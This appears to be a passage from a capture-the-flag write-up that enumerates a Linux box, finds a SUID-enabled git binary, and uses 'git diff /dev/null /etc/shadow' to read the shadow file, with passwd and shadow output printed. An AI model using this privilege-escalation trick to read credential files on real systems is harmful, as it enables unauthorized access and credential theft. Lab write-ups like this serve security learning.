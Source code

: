 ```bash
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
haproxy:x:100:101:haproxy:/var/lib/haproxy:/bin/false
m4d0k4:x:1000:1000:Madoka Kaname:/home/m4d0k4:/bin/ash
```

```

PID   USER     TIME  COMMAND
    1 nobody    0:00 /opt/bash/bin/bash /var/www/cgi-bin/uptime.sh
    2 nobody    0:00 /bin/ps aux /proc/self/cgroup

```


the challenge description says that we must get madoka password

so i tought of /etc/shadow

`-rw-r-----    1 root     nobody         512 Sep  2 20:04 /etc/shadow
`

but i couldn't read it 

so i continued my enumeration scanning for files owned by root or madoka user

but nothing

until i tought of fuzzing for SUID 

`find / -perm -4000`

at this point i did a terrible typo

and lost a bit of time

but at the end i was able to discover that the binary /usr/bin/git had the suid bit set 

this grants us full read access on system and potentially root

as i only had rce i choose to just get the /etc/shadow file

````
git diff /dev/null /etc/shadow
````

```
root:*::0::::: 
bin:!::0::::: 
daemon:!::0::::: 
adm:!::0::::: 
lp:!::0::::: 
sync:!::0::::: 
shutdown:!::0::::: 
halt:!::0::::: 
mail:!::0::::: 
news:!::0::::: 
uucp:!::0::::: 
operator:!::0::::: 
man:!::0::::: 
postmaster:!::0::::: 
cron:!::0::::: 
ftp:!::0::::: 
```